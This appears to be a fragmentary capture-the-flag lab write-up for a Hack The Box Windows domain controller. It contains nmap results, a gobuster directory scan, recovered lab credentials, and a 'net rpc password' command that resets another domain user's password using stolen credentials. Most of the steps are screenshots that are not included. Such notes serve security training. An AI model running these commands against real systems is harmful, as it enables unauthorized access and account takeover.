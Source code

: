 # Enumeration
## Nmap

ORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-04 08:20:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP 
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: 
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP 
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP 
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49752/tcp open  msrpc         Microsoft Windows RPC

## website 

![[Pasted image 20250604022358.png]]


gobuster dir -u http://certificate.htb  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x .php


![[Pasted image 20250606232707.png]]


![[Pasted image 20250607000638.png]]




![[Pasted image 20250607000531.png]]

![[Pasted image 20250607003813.png]]
certificate_webapp_user:cert!f!c@teDBPWD

![[Pasted image 20250607004547.png]]
sara.b@certificate.htb:Blink182

net rpc password "lion.sk" "newP@ssword2022" -U "certificate.htb"/"Sara.B"%"Blink182" -S certificate.htb


![[Pasted image 20250607034618.png]]
